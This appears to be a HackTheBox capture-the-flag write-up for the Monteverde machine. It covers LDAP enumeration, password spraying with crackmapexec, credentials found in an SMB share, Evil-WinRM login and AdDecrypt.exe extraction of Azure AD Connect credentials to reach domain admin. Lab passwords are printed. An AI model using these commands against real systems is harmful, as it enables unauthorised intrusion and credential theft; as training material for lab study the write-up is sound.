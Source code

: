 ```yaml
---
description: https://app.hackthebox.com/machines/Monteverde
---
```


# Monteverde

## Nmap

```
sudo nmap 10.10.10.172 -p- -sS -sV                                                                       

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-21 13:29:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
53501/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

{% hint style="info" %}
Add "10.10.10.172 megabank.local" to /etc/hosts.
{% endhint %}

Starting out again `LDAP` we fire off a few `nmap` scripts with null credentials.

```bash
nmap -n -sV -Pn --script "ldap* and not brute" '10.10.10.172'
```

![](<../../../.gitbook/assets/image (2055) (1) (1) (1).png>)

This returns a large amount of information. This time, we can utilize `ldapsearch` to `grep` for userPrincipalName's

```bash
ldapsearch -x -h '10.10.10.172' -D '' -w '' -b "DC=megabank,DC=local" | grep userPrincipalName | sed 's/userPrincipalName: //' | sort
```

![](<../../../.gitbook/assets/image (2044) (1) (1) (1) (1) (1).png>)

With valid user accounts we check them against Impacket's `GetNPUsers.py` for any accounts that may have "Do not require kerberos preauthentication" enabled. As shown below we have zero valid results.

![](<../../../.gitbook/assets/image (2085) (1) (1).png>)

Using `crackmapexec` we can spray the known usernames against themselves, looking for weak passwords against `SMB`.

```
crackmapexec smb 10.10.10.172 -u ~/monteverde/Users.txt -p ~/monteverde/Users.txt 
```

![](<../../../.gitbook/assets/image (2045) (1) (1) (1).png>)

Which returns valid credentials for the account _SABatchJobs_.

**Credentials**

```
SABatchJobs:SABatchJobs
```

![](<../../../.gitbook/assets/image (2041).png>)

Using `smbmap` with our new found account we see we have read access to the non default share "users$". Of which, the share contains a file of interest `azure.xml` under the user _mhope_.

```
smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 -R
```

![](<../../../.gitbook/assets/image (2083) (1) (1) (1).png>)

The file fortunately has clear text credentials.

![](<../../../.gitbook/assets/image (2048) (1) (1) (1) (1).png>)

**Credentials**

```
mhope:4n0therD4y@n0th3r$
```

Checking the credentials against `Evil-WinRM` gives us a valid login to the target system.

```
evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172
```

Once logged in, we can check the group memberships for the account `mhope`. Noticing the user is a member of "Azure Admins" is of interest.

![](<../../../.gitbook/assets/image (2046) (1) (1) (1) (1).png>)

Further basic enumeration shows Azure AD Connect is installed.

![](<../../../.gitbook/assets/image (2068) (1) (1) (1) (1) (1).png>)

Azure AD Connect is used to synchronize on premise AD identities and passwords up to Azure AD (AAD) and vice versa.

Azure AD Connect provides the following features:

* [Password hash synchronization](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs) - A sign-in method that synchronizes a hash of a users on-premises AD password with Azure AD.
* [Pass-through authentication](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta) - A sign-in method that allows users to use the same password on-premises and in the cloud, but doesn't require the additional infrastructure of a federated environment.
* [Federation integration](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-fed-whatis) - Federation is an optional part of Azure AD Connect and can be used to configure a hybrid environment using an on-premises AD FS infrastructure. It also provides AD FS management capabilities such as certificate renewal and additional AD FS server deployments.
* [Synchronization](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sync-whatis) - Responsible for creating users, groups, and other objects. As well as, making sure identity information for your on-premises users and groups is matching the cloud. This synchronization also includes password hashes.
* [Health Monitoring](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-azure-ad-connect#what-is-azure-ad-connect-health) - Azure AD Connect Health can provide robust monitoring and provide a central location in the Azure portal to view this activity.

Researching possible exploits with Azure AD Connect I came across the following blog post from VBscub, as well as tool to grab the plain text credentials stored in Azure AD Connect .

**VBscrub:** [https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)

**Github:** [https://github.com/VbScrub/AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt)

Download the exploit and uploaded the contents to _mhope's_ Documents directory.

```
upload /home/kali/AdDecrypt.exe
upload /home/kali/mcrypt.dll
```

Then change directory to `"C:\Program Files\Microsoft Azure AD Sync\Bin"`. From here execute the `AdDecrypt.exe` from `mhope's` Documents directory.

```
cmd.exe /c c:\users\mhope\documents\AdDecrypt.exe -fullSQL
```

![](<../../../.gitbook/assets/image (2043) (1) (1).png>)

Which gives us the domain administrator credentials.

**Credentials**

```
administrator:d0m@in4dminyeah!
```

Where we are able to log in with `Evil-WinRM` and grab the root flag.

![](<../../../.gitbook/assets/image (2059) (1) (1) (1) (1) (1).png>)
